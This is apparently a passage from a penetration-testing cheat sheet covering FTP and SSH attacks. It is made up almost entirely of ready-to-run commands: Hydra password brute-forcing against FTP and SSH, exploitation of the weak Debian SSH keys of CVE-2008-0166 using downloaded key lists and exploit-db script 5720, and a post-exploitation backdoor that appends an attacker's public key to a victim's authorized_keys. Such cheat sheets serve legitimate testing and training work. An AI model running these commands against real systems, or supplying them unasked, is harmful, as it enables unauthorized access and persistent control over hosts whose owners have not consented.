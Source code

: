 Upload a file.
```bash
passive
binary
put poo.txt
```

End a FTP session.
```bash
exit
```

Brute Force with Hydra
```bash
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ftp://<IP> -u -vV
```

#### SSH
TCP port 22.
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

Brute Force with Hydra
```bash
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> ssh://<IP> -u -vV
```
CVE-2008-0166
```bash
All SSL and SSH keys generated on Debian-based systems (Ubuntu, Kubuntu, etc) between September 2006 and May 13th, 2008 may be affected.

https://www.exploit-db.com/exploits/5720

wget https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_rsa_2048_x86.tar.bz2 https://github.com/g0tmi1k/debian-ssh/raw/master/common_keys/debian_ssh_dsa_1024_x86.tar.bz2

bunzip2 debian_ssh_rsa_2048_x86.tar.bz2 debian_ssh_dsa_1024_x86.tar.bz2
tar -xvf debian_ssh_rsa_2048_x86.tar
tar -xvf debian_ssh_dsa_1024_x86.tar

python 5720 rsa/2048 <IP> <USER> <PORT> <THREADS>
python 5720 dsa/1024 <IP> <USER> <PORT> <THREADS>
```

SSH Backdoor - Post Exploit
```bash
# Attacker
ssh-keygen -f <FILENAME>
chmod 600 <FILENAME>
cat <FILENAME>.pub -> copy

# Victim
echo <FILENAME>.pub >> <PATH>/.ssh/authorized_keys

# Connect
ssh -i <FILENAME> <USER>@<IP>
```
